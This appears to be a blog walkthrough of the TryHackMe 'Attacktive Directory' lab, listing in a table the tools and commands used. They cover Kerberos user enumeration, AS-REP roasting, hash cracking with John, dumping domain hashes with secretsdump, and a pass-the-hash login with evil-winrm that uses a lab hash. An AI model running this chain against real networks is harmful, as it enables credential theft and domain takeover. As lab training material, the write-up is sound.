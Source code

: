 ```yaml
---
title: Writeup - THM - Attacktive Directory
layout: post
summary: Walkthrough of Attacktive Directory from TryHackMe.
author: fr3akazo1d
date: '2020-09-24 23:14:00'
keywords: tryhackeme, Active Direcotry, hacking, pwned, enum4linux, kerbrute
category: walkthroughs
thumbnail: "/assets/img/thm-images/THM-AttactriveDirctory.png"
permalink: "/blog/attacktivedirectory/"
usemathjax: true
published: true
---
```


# General Information

| Room        | Date        | Difficulty | Tags                               | Time |
| ----------- | ----------- | ---------- | ---------------------------------- | ---- |
| Attacktive Directory | 03.11.2020  | medium       | Active Directory, AD, Kerberos, SMB | 6h   |


# Used Programs

| Program  | Command |
| --------- | -------- |
| namp     | nmap -sC -sV -oN nmap/initial $ip|
| rustscan | rustscan $ip --ulimit 5000 -- -sC -sV -oN nmap/initial  tee output |
| enum4linux | enum4linux -d $ip | 
| kerbrute | ./kerbrute_linux_amd64 userenum -d spookysec.local --dc spookysec.local '/home/fr3akazo1d/Pen-Testing/THM/Boxes/AttractiveDirectory/user.txt' |
| GetNPUser.py | python3 GetNPUsers.py spookysec.local/s*******n -no-pass |
| JohnTheRipper | sudo john kerberushash --wordlist=password.txt  |
| metapsloit | msf6 auxiliary(admin/smb/download_file) |
| smbclient | smbclient \\\\spookysec.local\\backup -U s*******n |
| secretsdump.py | python3 secretsdump.py -just-dc backup@spookysec.local |
| evil-winrm | evil-winrm -u administrator -H 0e0363213e37b94221497260b0bcb4fc -i 10.10.124.175 |

# Usefull Information 

I have added the IP-Address of the room to my local /etc/hosts file, because we need it for further enumeration of the domain controller. 
